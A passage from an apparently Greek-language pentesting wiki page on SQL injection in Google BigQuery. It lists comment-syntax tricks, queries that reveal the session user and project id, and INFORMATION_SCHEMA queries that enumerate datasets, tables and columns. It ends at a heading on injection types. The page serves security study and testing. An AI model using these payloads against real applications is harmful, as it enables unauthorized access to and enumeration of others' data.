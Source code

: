 ```bash

# Misc
bq show --encryption_service_account # Get encryption service account
```
{% endcode %}

### Ενσωμάτωση SQL στο BigQuery

Για περισσότερες πληροφορίες μπορείτε να ελέγξετε την ανάρτηση στο blog: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Εδώ θα δοθούν μόνο μερικές λεπτομέρειες.

**Σχόλια**:

* `select 1#from here it is not working`
* `select 1/*between those it is not working*/` Αλλά μόνο το αρχικό δεν θα λειτουργήσει
* `select 1--from here it is not working`

Λάβετε **πληροφορίες** σχετικά με το **περιβάλλον** όπως:

* Τρέχων χρήστης: `select session_user()`
* Αναγνωριστικό έργου: `select @@project_id`

Συγχωνεύστε γραμμές:

* Όνοματα όλων των πινάκων: `string_agg(table_name, ', ')`

Λάβετε **σύνολα δεδομένων**, **πίνακες** και ονόματα **στηλών**:

* **Όνομα έργου** και **συλλογής δεδομένων**:

{% code overflow="wrap" %}
```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

* **Ονόματα στηλών** και **πινάκων** όλων των πινάκων του dataset: &#x20;

{% code overflow="wrap" %}
```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM <project-id>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS
```
{% endcode %}

* **Άλλα datasets** στον ίδιο έργο:&#x20;

{% code overflow="wrap" %}
```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM <project-id>.INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

**Τύποι SQL Injection:**

